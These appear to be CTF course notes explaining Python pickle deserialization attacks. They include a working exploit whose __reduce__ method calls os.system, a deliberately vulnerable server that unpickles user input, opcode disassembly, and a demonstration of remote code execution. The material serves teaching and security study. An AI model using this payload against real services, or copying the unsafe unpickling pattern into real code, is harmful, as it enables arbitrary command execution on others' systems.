 ```yaml
---
title: Simple Web 0x15.5(Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x15.5(Pickle)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`

## Background - Pickle
Python magic method: `__reduce__`
`__recude__` is used to define what needs to be done when deserializing.
[Web Hacking | 終章【EDU-CTF 2021】](https://youtu.be/73uI7BK8k3g?t=236)

## Source code
:::spoiler `exploit.py`
```python!=
import pickle
import os
import pickletools

class exploit(object):
    def __reduce__(self):
        return (os.system, ('pwd',))
    

serialized = pickle.dumps(exploit())
print(bytes.hex(serialized))
optim_s = pickletools.optimize(serialized)
print(pickletools.dis(serialized))
print(pickletools.dis(optim_s))
```
:::

--- 
:::spoiler server_app.py
```python=
import pickle

serialized = bytes.fromhex(input('Data: '))
pickle.loads(serialized)
```
:::

## Output & Analyze

### In Linux
![](https://i.imgur.com/uYkq006.png)
* `GLOBAL 'posix system'`: import `posix system`(which is a library in linux)
* `BINPUT 0`: put the top stack to position 0 at Memo structure(array)
* `BINUNICODE`: push string 'pwd' to stack top
* `TUPLE1`: let the element of top stack be a tuple type
* <font color="FF0000">`REDUCE`</font>:
    ```
    args = stack.top() # which is 'pwd' in tuple type
    func = stack.top() # which is 'posix system'
    stack.push(func(args)) 
    # then it'll execute os.system('pwd') and push the output to stack
    ```
![](https://i.imgur.com/VqhEs9r.png)

### In Windows
![](https://i.imgur.com/nnWH7Uh.png)
Much similar with the outcome on linux environment.

### Analyze

## How to RCE?
```bash!
$ python exploit.py | python server_app.py
Data: /home/sbk6401/NTUSTWS/deserialization
```
How did it do?
First, `exploit.py` will serialize the exploit function and turned it to `byte.hex` then send it `server_app.py`
Then `server_app.py` will deserialize it and during the process, it'll execute magic method `__reduce__`, suddenly, it'll execute `os.system('pwd')` at the same time → **RCE**